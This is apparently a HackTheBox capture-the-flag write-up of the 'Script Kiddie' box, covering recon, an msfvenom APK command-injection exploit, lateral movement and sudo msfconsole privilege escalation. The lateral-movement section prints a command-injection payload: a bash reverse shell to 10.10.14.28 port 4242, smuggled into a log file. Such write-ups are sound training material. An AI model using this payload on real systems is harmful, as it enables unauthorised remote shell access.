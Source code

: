 ```yaml
---
layout: default
title: Script Kiddie
parent: HackTheBox
nav_order: 7
---
```

# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-sk.png)

- Summary
- Recon
- Exploitation
- Lateral Movement
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Exploit functionality of web app with a APK template command injection attack 
- Use user's shell script to access new user's account
- Escalate privileges with msfconsole




## [](#header-2)Recon:


Our initial nmap scan of running services and safe scripts shows both ssh and a web app running on port 5000.

![](pictures/nmap-sk.png)



Navigating to the website we can see what seems to be a script kiddies web app that utilizes common tools(nmap,msfvenom,searchsploit).



![](pictures/page-sk.png)





## [](#header-2)Exploitation:
After looking into the tools and using google I found that I could use this [exploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) to get a reverse shell on the web server.


![](pictures/shell-sk.png)

From here I used 

```bash
bash -i
```

to get a interactive/better shell.




![](pictures/bash-sk.png)


## [](#header-2)Lateral Movement:

I am able to access the other user on the system "pwn" and find an interesting shell script "scanlosers.sh".



![](pictures/scan-sk.png)


I saw that this script took input from the log located /home/kid/logs/hackers and ran a shell command from that input.


I used the vi editor and input the following command into the log file (emphasis on the 3 spaces) in a way that I would get a reverse shell.


```bash
   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/4242 0>&1'   #
```

![](pictures/rs-sk.png)

## [](#header-2)Privilege Escalation:


Priv esc was fairly easy as pwn had privileges to use msfconsole as sudo.

To check if the user can use any commands as sudo use the following command:


```bash
sudo -l
```

From here the path to root is simpley to use the path to metasploit found from the sudo -l command to access the root folder flag.






Also, I highly recommend if you are learning shell commands to head over to [explainshell.com](explainshell.com) as it was extremely helpful with this box and will be in the future (at least for me)





















